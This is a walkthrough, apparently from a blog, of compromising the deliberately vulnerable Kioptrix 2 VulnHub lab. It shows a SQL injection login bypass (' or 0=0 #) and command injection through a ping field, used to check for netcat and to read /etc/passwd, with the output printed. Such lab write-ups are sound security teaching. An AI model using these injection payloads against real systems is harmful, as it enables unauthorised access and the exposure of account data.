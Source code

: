 Alright alright. Looks like we have a webserver running on ```80/443```. Checking out the home page it looks like a login screen. 

<img src="{{ site.baseurl }}/images/vulnhub/2017-06-14-kioptrix-2/login.png">

After trying a couple of default cred attempts, I decided to try some SQLi. Using Burp I intercepted a login attempt and sent it to intruder with the injection list at ```/usr/share/wordlists/wfuzz/Injections/SQL.txt ```. One of the hits appeared to be:

```
' or 0=0 #
```

We perform the injection and arrive at an administrator console.

<img src="{{ site.baseurl }}/images/vulnhub/2017-06-14-kioptrix-2/ping.png">

Let's see what happens when we try an address on the network

<img src="{{ site.baseurl }}/images/vulnhub/2017-06-14-kioptrix-2/ping-results.png">

Alright, what about command injection? Looks like the straight output of a ping command

<img src="{{ site.baseurl }}/images/vulnhub/2017-06-14-kioptrix-2/command-inj-result.png">

Nice. So I tried to throw a reverse shell, but it failed. Let's do a little mapping through the injection to see what's going on and maybe get some intel from the box.


```
ping 192.168.56.102; which nc
...[redacted ping info]...
```

Aha, so it looks like we don't have netcat installed on this box. That's okay, we have some other rev shell options.

```
ping 192.168.56.102; which cat

...[redacted ping info]...
/bin/cat
```

Alright we have cat. Let's map some users

```
/bin/cat /etc/passwd 
```

```
192.168.56.102; /bin/cat /etc/passwd

PING 192.168.56.102 (192.168.56.102) 56(84) bytes of data.
From 192.168.56.101 icmp_seq=0 Destination Host Unreachable
From 192.168.56.101 icmp_seq=1 Destination Host Unreachable
From 192.168.56.101 icmp_seq=2 Destination Host Unreachable

--- 192.168.56.102 ping statistics ---
3 packets transmitted, 0 received, +3 errors, 100% packet loss, time 1999ms
, pipe 4
root:x:0:0:root:/root:/bin/bash
[...snip...]
john:x:500:500::/home/john:/bin/bash
harold:x:501:501::/home/harold:/bin/bash
```
